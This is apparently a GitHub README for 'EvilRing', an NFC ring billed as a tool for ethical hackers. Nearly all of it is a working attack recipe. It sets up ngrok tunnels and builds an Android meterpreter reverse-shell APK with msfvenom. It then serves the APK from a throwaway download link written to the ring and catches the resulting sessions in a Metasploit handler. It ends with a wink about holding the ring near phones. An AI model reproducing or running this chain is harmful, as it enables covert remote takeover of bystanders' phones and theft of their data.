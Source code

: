 # EvilRing
EvilRing: An NFC Ring for ethical hackers

Setup:

1. Install ngrok using the following commands:
  
`wget https://bin.equinox.io/c/bNyj1mQVY4c/ngrok-v3-stable-linux-amd64.tgz
tar -xzvf ngrok-v3-stable-linux-amd64.tgz
chmod +x ngrok
sudo mv ngrok /usr/local/bin/ngrok
rm ngrok-v3-stable-linux-amd64.tgz
ngrok config add-authtoken YOUR-AUTH-TOKEN-HERE`

2. Create an ngrok TCP tunnel

(Free Version)

`ngrok tcp 4242`

(Paid Version) - Recommended
Start your reserved TCP tunnel from ngrok dashboard and then connect to it from your terminal. 
This way the connection is persistent anywhere in the world. 
Replace the stars with your specific ngrok address and port number. 4242 will be the port we listen to locally for connections on metasploit.

`ngrok tcp --region=us --remote-addr=*.tcp.ngrok.io:* 4242`

3. Generate your payload with msfvenom, change the ngrok variables:
  
`msfvenom -p android/meterpreter/reverse_tcp LHOST=<ngrok tunnel ip> LPORT=<ngrok tunnel port> -o evilring.apk`

4. Serve your file from a direct-download link (like python3 httpserver and another ngrok tunnel for toss-away file host):
  
`python3 -m http.server 8080
./ngrok http 8080`

5. Copy your direct download link to your NFC ring (http://***.***/evilring.apk)
This can be done with the proxmark3, chameleon tiny, or even just an NFC enabled device using the NFC Tools app.

6. On your command and control open msfconsole:
  
`msfconsole -q

(inside msfconsole) 
use exploit/multi/handler
set payload android/meterpreter/reverse_tcp
set LHOST 0.0.0.0
set LPORT 4242
run`
  
7.  (Dont) go an hold onto some phones!
